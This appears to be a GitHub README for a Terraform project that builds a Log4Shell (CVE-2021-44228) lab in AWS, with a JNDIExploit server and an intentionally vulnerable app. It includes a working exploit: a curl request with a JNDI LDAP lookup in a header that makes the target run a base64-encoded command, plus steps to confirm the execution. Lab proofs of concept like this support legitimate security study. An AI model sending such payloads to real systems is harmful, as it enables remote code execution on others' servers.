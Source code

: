 # terraform-log4shell

Log4Shell POC Using Terraform

# About

This terraform creates two instances on a VPC in AWS Cloud:

- [jndiexploit](https://github.com/feihong-cs/JNDIExploit)
- [log4shellapp](https://github.com/christophetd/log4shell-vulnerable-app)

Please ensure that you have configured aws cli with your Access key ID and Secret access key.
In order to ssh into the ec2 instances, please update ssh public key in terraform before running terraform apply

```bash
terraform init
terraform plan
terraform apply --auto-approve
```

# Exploitation (Remote Code Execution) Steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk**._

- Trigger the exploit using:

```bash
curl ${log4shellapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned` was created in log4shellapp's container. First ssh into log4shellapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti vulnerable-app ls /tmp
...
pwned
...
```

## Reference

- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://bigb0ss.medium.com/appsec-log4shell-cve-2021-44228-606f91e56866
